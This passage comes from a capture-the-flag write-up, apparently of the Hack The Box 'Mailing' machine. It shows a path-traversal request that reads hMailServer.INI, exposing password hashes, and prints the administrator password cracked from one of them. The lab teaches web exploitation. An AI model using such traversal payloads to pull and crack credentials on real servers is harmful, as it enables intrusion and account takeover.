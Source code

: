 Several of our payload confirms LFI. (Payloads that is used here can be found on references page below)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-10.png)

## Access to Mail Server
### LFI

Through some research, it seems that **hMailServer.INI** contains interesting information about hMailServer. 

Let's take a look at it using the command below:

```bash
/download.php?file=..\..\..\..\..\../../../Program+Files+(x86)/hMailServer/Bin/hMailServer.INI
```

**hMailServer.INI** reveals password hashes as such:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-11.png)


### Password Cracking

Using crackstation, we can easily crack the password hash for administrator:

**administrator**:**homenetworkingadministrator**

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-12.png)
